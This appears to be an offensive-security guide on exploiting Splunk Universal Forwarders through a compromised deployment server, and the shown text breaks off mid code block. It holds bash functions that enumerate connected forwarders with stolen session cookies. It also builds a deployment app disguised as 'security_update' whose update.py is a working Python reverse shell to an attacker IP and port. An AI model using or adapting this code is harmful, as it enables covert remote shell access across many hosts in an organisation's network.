 
## Universal Forwarder Exploitation

### Deployment Server Compromise

#### Forwarder Network Discovery
```bash
# Discover and enumerate Universal Forwarders
discover_forwarders() {
    local deployment_server=$1
    
    echo "[+] Discovering Universal Forwarders from deployment server"
    
    # Query connected forwarders
    curl -s -b cookies.txt \
      "$deployment_server/services/deployment/server/clients" | \
      grep -oP '<s:key name="name">\K[^<]+' > forwarders.txt
    
    echo "[+] Connected Universal Forwarders:"
    cat forwarders.txt
    
    # Get detailed forwarder information
    while read forwarder; do
        echo "[+] Forwarder details: $forwarder"
        curl -s -b cookies.txt \
          "$deployment_server/services/deployment/server/clients/$forwarder" | \
          grep -oP '<s:key name="[^"]*">[^<]*' | head -10
    done < forwarders.txt
    
    echo "[+] Total forwarders discovered: $(wc -l < forwarders.txt)"
}

# discover_forwarders "http://deployment-server:8000"
```

#### Deployment Application Creation
```bash
# Create application for Universal Forwarder deployment
create_deployment_app() {
    local app_name="security_update"
    local attacker_ip="10.10.14.15"
    local attacker_port="4444"
    
    echo "[+] Creating deployment application for Universal Forwarders"
    
    # Create deployment-specific directory structure
    mkdir -p deployment_apps/$app_name/{bin,default,local}
    
    # Create lightweight reverse shell for forwarders
    cat > deployment_apps/$app_name/bin/update.py << EOF
#!/usr/bin/env python
import socket,subprocess,os
try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("$attacker_ip",$attacker_port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1) 
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])
except:
    pass
EOF
    
```